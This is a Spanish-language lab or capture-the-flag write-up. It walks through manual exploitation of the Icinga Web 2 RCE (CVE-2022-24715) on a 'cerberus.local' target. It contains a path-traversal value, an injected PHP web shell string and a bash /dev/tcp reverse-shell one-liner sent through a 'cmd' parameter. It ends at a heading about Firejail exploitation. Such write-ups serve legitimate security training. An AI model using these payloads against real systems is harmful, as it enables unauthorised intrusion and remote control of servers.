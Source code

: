 - Probamos estas credenciales para logearnos en la página web principal de Icinga y accedemos como el usuario "matthew"

# Icinga Web 2 RCE (CVE-2022-24715)

- Si buscamos en internet vulnerabilidades de Icinga Web 2 estando ya autenticado encontraremos el siguiente repositorio apuntando al CVE-2022-24715:  https://github.com/JacobEbben/CVE-2022-24715 

- Se trata de un RCE el cual se lo explota con una script de Python, pero nosotros lo haremos de forma manual así que abrimos la script para entender qué hace por detrás.

- Luego de analizar la script podemos concluir en los siguientes pasos para explotar el RCE  de forma manual.

	- Nos vamos a Configuration/Access Control/Users y añadimos un usuario cualquiera, (en este caso "dante")
	- Nos dirigimos a "Application/General" y cambiamos el "Module Path" por "/dev/" y damos en "Save Changes"
	- Nos vamos a "Modules" y activamos el módulo "shm"
	- En  "/Application/Resources" creamos un nuevo recurso de tipo "SSH Identity"
	- En "Resource name" le podemos cualquiera en formato .php (en este caso pwned.php)
	- En "User" le ponemos el siguiente path traversal "../../../../../../../dev/shm/run.php"
	- Y finalmente en "Private Key" le ponemos una key privada válida de SSH (La podemos crear nosotros mismos en nuestra máquina atacante, comandos explicados más adelante) seguido de un salto de linea y la siguiente cadena: \x00 <?php passthru($_GET['cmd']); ?>

####  Crear una Private Key de SSH:

```bash
$ssh-keygen
$openssl rsa -in /home/usuario/.ssh/id_rsa -outform PEM > /ruta/a/nueva/clave_rsa
```

- Luego de hacer click en "Save changes" cargará el dashboard y si ahora hacemos una petición usando el parámetro "cmd" para ejecutar comandos del sistema veremos que el RCE se ejecuta de forma exitosa.

```js
http://icinga.cerberus.local:8080/icingaweb2/dashboard?cmd=whoami
```

- Ahora nos entablamos una reverse shell usando el RCE obtenido:

```js
http://icinga.cerberus.local:8080/icingaweb2/dashboard?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.2/443 0>%261"
```

- Ganamos acceso al contenedor, hacemos el respectivo tratamiento de la tty para poder movernos con mayor comodidad.

- En este punto debemos buscar la forma de escapar del contenedor, pero en primer lugar buscamos si hay manera de escalar privilegios y tener acceso total del contenedor.



# Explotación de binario Firejail
